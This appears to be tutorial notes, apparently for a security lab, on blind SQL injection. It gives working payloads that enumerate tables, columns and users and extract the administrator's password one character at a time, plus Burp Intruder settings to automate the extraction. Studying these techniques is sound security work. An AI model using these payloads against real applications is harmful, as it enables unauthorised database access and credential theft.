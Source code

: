 
* Once we can identify how the application responds to a True vs False query, we can use the below payloads to extract useful information.  Depending on the response we receive, we know that the query injected is either valid or invalid.

<br>

* **Payloads to enumerate table names.**  Even though UNION attacks won't do us any good here in Blind SQLi, this technique can still be used to enumerate table names:

```
'and (select 'a' from {tableName} limit 1)='a
```
```
'union select 'a' from {tableName} where 1=1--
```


* **Payloads to enumerate column names.**  The 2nd payload requires to know at least 1 username on the database:

```
'union select {columnName} from users where 1=1--
```
```
'union select 'a' from users where {columnName}='administrator'--
```



* **Payloads to enumerate valid users that are in a column called username:**

```
'and (select 'a' from users where username='{userName}')='a
```


* **Payloads to determine the length of a user's password.  This payload uses a table called users and 2 columns called username and password:**

```
' and (select 'a' from users where username='administrator' and length(password)>10)='a
```


* **Payloads to extract the password of a user 1 character at a time:**

```
' and (select substring(password,1,1) from users where username='administrator')='{character}
```

<br>

Burp Intruder or the script in the "Scripts" folder can be used to help automate the extraction of password:

For Burp Intruder use the following configurations:
   * Attack Type:  Cluster Bomb
   * Payload Positions: 2 position markers need to be set:
      * The first one should be on the character offset position in the password -> ...substring(password, $$, 1)
      * The second marker should be on the actually character to test -> ...where username='administrator')='$$
   * Payloads:
      * First marker - Numbers From 1 to 20
      * Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)
   * View Results: Filter by the Response Length column or use the Grep function to search for the keyword. After sorting, it should be easy to manually put together the password.
   